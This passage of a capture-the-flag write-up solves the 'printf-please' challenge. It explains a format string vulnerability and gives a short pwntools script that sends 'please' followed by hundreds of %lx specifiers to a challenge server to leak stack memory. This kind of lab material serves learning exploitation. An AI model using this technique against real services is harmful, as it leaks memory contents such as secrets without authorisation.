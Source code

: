 **\*flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}**

### pwn/printf-please ![c](https://img.shields.io/badge/107_points-green)

#### Description

Be sure to say please...

#### Solution

This is the source code:  
![Alt text](./img/please.PNG?raw=true "Title")  
as you can see there is a format string vulnerability in line 31.  
The exploitation is very simple: we send in input "please" and a lot of %lx which print out the stuff on the stack.  
This is the input:

```
from pwn import *

r = remote ('mc.ax', 31569)
payload = b"please" + b"%lx-"*505
r.sendline(payload)
r.interactive()
```
